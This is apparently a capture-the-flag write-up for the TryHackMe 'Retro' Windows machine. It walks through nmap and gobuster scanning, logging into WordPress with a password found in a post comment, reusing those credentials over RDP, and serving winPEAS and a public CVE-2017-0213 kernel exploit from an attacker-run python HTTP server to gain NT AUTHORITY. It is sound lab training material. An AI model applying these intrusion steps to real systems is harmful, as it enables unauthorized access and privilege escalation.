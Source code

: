 # Retro - THM
###  Difficulty level: Hard
------------------------------------------------------


Let's start with nmap scan:

```bash
nmap -sV -sC -Pn 10.10.254.2 -oN nmap_scan	
```
Results:
```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-04-02T09:49:52
|_Not valid after:  2023-10-02T09:49:52
|_ssl-date: 2023-04-03T09:53:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-04-03T09:53:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From this scan I can cocnlude this machine running on a Windows OS,
Also, ports 80 (http) and 3389 (rdp) are open, I'll start investigate the web page.

There is nothing on the first page:

![image](https://user-images.githubusercontent.com/114166939/229806780-8a9ddf5e-fe89-4eb4-863e-d5840f5420a0.png)


I'll try to find hidden directories on this web with gobuster:
```bash
gobuster dir -u http://10.10.254.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs
```

Results:
```
/retro
```
First thing to see, this site built with WordPress, it can be noticed with wappalyzer extension.

![image](https://user-images.githubusercontent.com/114166939/229808095-c74ae384-0c2c-43d5-baa5-8b59b6492935.png)

Also, I'll run another brute-force directory to see if there are another hidden directories under the "/retro" directory:
```bash
gobuster dir -u http://10.10.254.2/retro/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > RetroDirs
```

Results:
```
/wp-includes
/wp-admin	
/wp-content
```
Also, after some crawling on the "/retro" directory, I found a comment at "http://10.10.254.2/retro/index.php/2019/12/09/ready-player-one/":

![image](https://user-images.githubusercontent.com/114166939/229811797-f0870872-40aa-4ff0-a587-e733349a2634.png)

Probably the word "parzival" means something.

Because this is a WordPress web, I can tell there is a wp-login directory here,
It's on the "http://10.10.254.2/retro/wp-login.php".

As a username I'll use "wade", the user who wrote the comment, and as a password I'll use "parzival".

Success login!

![image](https://user-images.githubusercontent.com/114166939/229812841-a178a7ae-d8fc-4fd3-b5d4-fdc33fa01a2c.png)

I'll guess this credentials will work with the RDP service too because of it's name - "RetroWeb".

I'm going to use "remmina" service to connect:

![image](https://user-images.githubusercontent.com/114166939/229813708-4c98ac5d-b856-4f54-8c11-7ba124d2c775.png)

Connected!

On the desktop there is a file called "user.txt", It can be easily opened and I have the first flag!

![image](https://user-images.githubusercontent.com/114166939/229814249-5c437137-4cdf-4056-8aa6-8e5321dc3743.png)

Next, I'll open a cmd for gathering more information about this machine:
```cmd
systeminfo
```
Results:

![image](https://user-images.githubusercontent.com/114166939/229815473-c090618e-7110-4040-b16a-26dd2166361f.png)

This is x64 processor architecture, windows servers 2016, standalone computer.

```cmd
net users && net localgroup
```

![image](https://user-images.githubusercontent.com/114166939/229816484-d7fcea0c-7de4-4a59-8b80-600fc8559e53.png)

```cmd
net localgroup Administrators
```

![image](https://user-images.githubusercontent.com/114166939/229817126-ffcf7ce4-1ce4-4685-a2c3-e53344edbea4.png)

Wade is a weak user I'll try privilege escalation.

For that I'll need winPEASx64.exe from "https://github.com/carlospolop/PEASS-ng/releases/tag/20230402".

Next, I'll run a python3 server to download it on the victim machine:
```python3
python3 -m http.server
```

I'll open "Google chrome" and run "http://10.14.50.11:8000/winPEASx64.exe", download the file
and run it.

One of the many vulnerabilities it found is "CVE-2017-0213"!


This CVE exploit the kernel and grant NT-AUTHORITY permissions.

I found a github page with this exploit "https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213",

Download to my machine the "CVE-2017-0213_x64.zip", unzip it, and now I'll upload it to the victim machine as I did before, with python3 server.


I'll run the file from the cmd:
```cmd
CVE-2017-0213_x64.exe
```

![image](https://user-images.githubusercontent.com/114166939/229829593-df5bbce4-09b4-40c5-bec5-a7e50282217b.png)


Got NT-AUTHORITY user!

Now all left to do is to open the Administrator directory and print the "root.txt" flag!

```cmd
type C:\Users\Administrator\Desktop\root.txt.txt
```

![image](https://user-images.githubusercontent.com/114166939/229826500-f97a8b4f-e697-44d8-b1da-ba574e0b50e8.png)

